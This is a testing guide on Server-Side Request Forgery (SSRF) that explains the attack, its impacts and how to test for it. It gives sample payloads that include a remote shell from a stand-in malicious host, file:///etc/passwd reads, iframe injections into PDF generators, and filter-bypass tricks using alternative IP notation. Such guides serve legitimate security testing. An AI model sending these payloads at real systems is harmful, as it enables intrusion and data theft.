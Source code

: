 <h1>What is Server-Sider Request Forgery</h1>
Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

<h2>How SSRF Works:</h2>
Server-Side Request Forgery (SSRF) is a vulnerability where an attacker manipulates a server to make unintended requests. This can lead to unauthorized access to internal services, data exfiltration, authentication bypass, or even remote code execution. Mitigation involves input validation, URL whitelisting, network segmentation, metadata protection, and using proxies.

- **Attack Vector**: An attacker finds an input field or an endpoint where they can inject a URL or IP address.
- **Malicious Request**: The attacker crafts a request that forces the server to make an HTTP request to a specified location.
- **Internal Network Access**: If the server has access to internal services, the attacker can exploit this to access internal-only services, potentially exposing sensitive data or functionalities.
- **External Network Access**: Attackers can also direct the server to make requests to external systems, potentially leaking server responses, internal configurations, or other sensitive data.

<h2>Potential Impacts:</h2>
A successful SSRF attack can often result in unauthorized actions or access to data within the organization. This can be in the vulnerable application, or on other back-end systems that the application can communicate with. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution.

An SSRF exploit that causes connections to external third-party systems might result in malicious onward attacks. These can appear to originate from the organization hosting the vulnerable application.

- **Internal Network Exploration**: Attackers can use SSRF to scan and map the internal network, discovering other services and applications.
- **Data Exfiltration**: Sensitive data, such as configuration files, internal API responses, or metadata, can be extracted.
- **Authentication Bypass**: Attackers might access internal services that do not require authentication or are weakly protected.
- **Remote Code Execution**: In some cases, SSRF can lead to remote code execution if the attacker can access services that have such vulnerabilities.

<h1>Test Objectives:</h1>
- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

<h1>How to Test:</h1>
When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other back-end systems that are not directly reachable by users. These back-end systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:
```
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads:
<h3>Load the Contents of a File:</h3>
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

<h3>Access a Restricted Page:</h3>
`GET https://example.com/page?page=http://localhost/admin`
Or:

GET https://example.com/page?page=http://127.0.0.1/admin


Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

<h3>Fetch a Local File:</h3>
GET https://example.com/page?page=file:///etc/passwd

<h3>HTTP Methods Used:</h3>
All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

<h3>PDF Generators:</h3>
In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.
```
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

<h3>Common Filter Bypass:</h3>
Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

- Using alternative IP representation that evaluate to `127.0.0.1`:
    - Decimal notation: `2130706433`
    - Octal notation: `017700000001`
    - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to semantic attacks.

- Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above
